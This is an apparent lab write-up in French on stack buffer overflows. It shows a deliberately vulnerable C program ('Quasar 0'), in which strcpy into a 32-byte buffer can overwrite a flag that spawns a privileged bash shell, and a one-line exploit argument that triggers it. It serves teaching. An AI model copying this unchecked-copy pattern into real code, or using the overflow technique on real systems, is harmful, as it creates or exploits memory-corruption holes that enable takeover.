 L’exploitation d’un dépassement de tampon nous permet  de 
contrôler ou de faire crasher un processus ou de modifier ses variables 
internes.

Les données originales de la stack frame comprennent le return 
pointer (l’adresse de retour)  de la fonction exploitée, c’est-à-dire 
l’adresse à laquelle le programme doit se rendre ensuite. Cependant, 
on peut définir de nouvelles valeurs en écrasant les données de
 la stack, pour ainsi pointer vers une adresse de son choix. On
 définit généralement les nouvelles valeurs à une adresse où se trouve 
le code malveillant. Ce changement modifie le cours 
de l’exécution du programme et transfère le contrôle au code malveillant.

![](C:\labo\assets\2022-02-27-17-31-48-image.png)

## Quasar 0

Nous pouvons observer au niveau du code source l'initialisation d'une variable `target` et d'un bufferk. La fonction `strcpy` copiera les données en entrer sans vérification de la taille. Si la variable target est différent de 0 le programme exécutera un shell pour nous.

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
// gcc -m32 quasar0.c -o quasar0

char *const param[] = {"/bin/bash", "-p", NULL};

int main(int argc, char **argv) {
        int target = 0;
        char buffer[32];

        if (argc != 2) {
                printf("[-] Usage is %s [STRING]\n", argv[0]);
                return -1;
        }

        strcpy(buffer, argv[1]);

        if (target != 0) {
                printf("[+] g00d b0y !\n");
                execve("/bin/bash", param, NULL);
        } else {
                printf("[-] BAZINGA ! Try again !\n");
        }
        return 0;
}
```

Ce programme peut-être exploite avec :

```bash
./quasar0 $(python3 -c 'print("T" * 33)')
```
